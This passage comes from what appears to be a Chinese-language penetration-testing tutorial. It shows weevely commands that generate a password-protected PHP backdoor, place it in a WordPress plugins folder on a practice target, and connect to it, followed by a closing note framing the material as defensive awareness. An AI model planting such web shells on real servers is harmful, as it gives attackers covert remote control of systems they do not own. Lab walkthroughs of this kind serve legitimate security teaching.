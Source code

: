 2.用weevely创建一个密码为koko的php后门

```shell
root@bt:/pentest/backdoors/web/weevely# ./main.py -g -o hax.php -p koko
```

![](渗透测试之从收集信息到入侵提权/37.png)

接下来上传到服务器之后来使用它

```shell
root@bt:/pentest/backdoors/web/weevely# ./main.py -t -u http://hack-test.com/Hackademic_RTB1/wp-content/plugins/hax.php -p koko
```

![](渗透测试之从收集信息到入侵提权/38.png)


测试我们的hax.php后门

![](渗透测试之从收集信息到入侵提权/39.png)

总结:

在这边文章中我们学到的一些技术正被黑客用来入侵你的网站和服务器，我们希望能通过这篇文章能够对你未来维护服务器和网站安全有所帮助.